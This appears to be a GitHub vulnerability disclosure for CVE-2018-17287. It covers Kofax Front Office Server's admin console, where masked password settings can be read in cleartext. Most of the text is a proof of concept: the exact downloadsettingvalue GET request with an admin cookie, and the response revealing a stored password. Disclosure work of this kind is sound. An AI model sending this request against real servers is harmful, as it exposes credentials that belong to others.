 # CVE-2018-17287-Information Disclosure

In Kofax Front Office Server Administration Console 4.1.1.11.0.5212, some fields (Ex. password fields) are obfuscated in the front-end, but the cleartext value can be exfiltrated by using the back-end "download" feature, as demonstrated by an mfp.password downloadsettingvalue operation.


<img src="info.png">
<br />


##### Request:
```
GET /Kofax/KFS/Admin/SettingsService/settings/customization/downloadsettingvalue/mfp.ricoh.properties/mfp.password/ HTTP/1.1
Host: *****************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: KFS_AUTH_ADMIN=e3129819-d807-48ec-8ae8-efdb76388c4e
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

##### Response:
```
HTTP/1.1 200 OK
Cache-Control: max-age=3600
Content-Type: application/xml
Server: Microsoft-IIS/8.5
Content-Disposition: attachment; filename=mfp.password.xml
Set-Cookie: fileDownload=true; path=/
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
Date: Wed, 23 May 2018 12:21:32 GMT
Connection: close
Content-Length: 5

ricoh
```
